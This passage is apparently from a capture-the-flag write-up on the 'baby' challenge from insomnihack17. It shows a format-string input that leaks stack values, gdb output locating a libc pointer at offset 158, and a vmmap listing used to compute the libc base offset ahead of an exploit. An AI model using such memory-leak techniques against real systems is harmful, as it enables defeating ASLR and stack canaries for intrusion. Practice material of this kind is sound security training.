 a little bit later, we can see a libc pointer to `__libc_start_main+231`:
```
1192| 0x7fffffffe518 --> 0x7ffff7a05b97 (<__libc_start_main+231>: mov    edi,eax)
```

We can see that it is 20 qwords infront of the stack canary (which is at offset `144`). So it should be around offset `160`. Let's use a format string bug to find out where:
```
Your format > %155$lx.%156$lx.%157$lx.%158$lx.%159$lx.%160$lx.%161$lx.%162$lx.%163$lx.%164$lx.%165$lx
7fffffffe5f0.f2f8acf6f7458300.555555555c30.7ffff7a05b97.2000000000.7fffffffe5f8.100000000.5555555559ff.0.675e72e97f8ad1cc.555555554ff0
```

Here we can see that the libc address offset is at `158`. We can leak it just like the stack canary, just change the offset. Also we can see that the offset to the start of the libc file I'm using is `0x21b97` by using the vmmap command, and since `0x7ffff7a05b97 - 0x00007ffff79e4000 = 0x21b97`:

```
gdb-peda$ vmmap
Start              End                Perm  Name
0x0000555555554000 0x0000555555557000 r-xp  /Hackery/insomnihack17/baby/baby
0x0000555555756000 0x0000555555757000 r--p  /Hackery/insomnihack17/baby/baby
0x0000555555757000 0x0000555555758000 rw-p  /Hackery/insomnihack17/baby/baby
0x0000555555758000 0x0000555555779000 rw-p  [heap]
0x00007ffff71a2000 0x00007ffff71ad000 r-xp  /lib/x86_64-linux-gnu/libnss_files-2.27.so
0x00007ffff71ad000 0x00007ffff73ac000 ---p  /lib/x86_64-linux-gnu/libnss_files-2.27.so
0x00007ffff73ac000 0x00007ffff73ad000 r--p  /lib/x86_64-linux-gnu/libnss_files-2.27.so
0x00007ffff73ad000 0x00007ffff73ae000 rw-p  /lib/x86_64-linux-gnu/libnss_files-2.27.so
0x00007ffff73ae000 0x00007ffff73b4000 rw-p  mapped
0x00007ffff73b4000 0x00007ffff73cb000 r-xp  /lib/x86_64-linux-gnu/libnsl-2.27.so
0x00007ffff73cb000 0x00007ffff75ca000 ---p  /lib/x86_64-linux-gnu/libnsl-2.27.so
0x00007ffff75ca000 0x00007ffff75cb000 r--p  /lib/x86_64-linux-gnu/libnsl-2.27.so
0x00007ffff75cb000 0x00007ffff75cc000 rw-p  /lib/x86_64-linux-gnu/libnsl-2.27.so
0x00007ffff75cc000 0x00007ffff75ce000 rw-p  mapped
0x00007ffff75ce000 0x00007ffff75d9000 r-xp  /lib/x86_64-linux-gnu/libnss_nis-2.27.so
0x00007ffff75d9000 0x00007ffff77d8000 ---p  /lib/x86_64-linux-gnu/libnss_nis-2.27.so
0x00007ffff77d8000 0x00007ffff77d9000 r--p  /lib/x86_64-linux-gnu/libnss_nis-2.27.so
0x00007ffff77d9000 0x00007ffff77da000 rw-p  /lib/x86_64-linux-gnu/libnss_nis-2.27.so
0x00007ffff77da000 0x00007ffff77e2000 r-xp  /lib/x86_64-linux-gnu/libnss_compat-2.27.so
0x00007ffff77e2000 0x00007ffff79e2000 ---p  /lib/x86_64-linux-gnu/libnss_compat-2.27.so
0x00007ffff79e2000 0x00007ffff79e3000 r--p  /lib/x86_64-linux-gnu/libnss_compat-2.27.so
0x00007ffff79e3000 0x00007ffff79e4000 rw-p  /lib/x86_64-linux-gnu/libnss_compat-2.27.so
0x00007ffff79e4000 0x00007ffff7bcb000 r-xp  /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7bcb000 0x00007ffff7dcb000 ---p  /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dcb000 0x00007ffff7dcf000 r--p  /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dcf000 0x00007ffff7dd1000 rw-p  /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dd1000 0x00007ffff7dd5000 rw-p  mapped
0x00007ffff7dd5000 0x00007ffff7dfc000 r-xp  /lib/x86_64-linux-gnu/ld-2.27.so
0x00007ffff7fdf000 0x00007ffff7fe1000 rw-p  mapped
0x00007ffff7ff7000 0x00007ffff7ffa000 r--p  [vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 r-xp  [vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 r--p  /lib/x86_64-linux-gnu/ld-2.27.so
0x00007ffff7ffd000 0x00007ffff7ffe000 rw-p  /lib/x86_64-linux-gnu/ld-2.27.so
0x00007ffff7ffe000 0x00007ffff7fff000 rw-p  mapped
0x00007ffffffde000 0x00007ffffffff000 rw-p  [stack]
0xffffffffff600000 0xffffffffff601000 r-xp  [vsyscall]
```
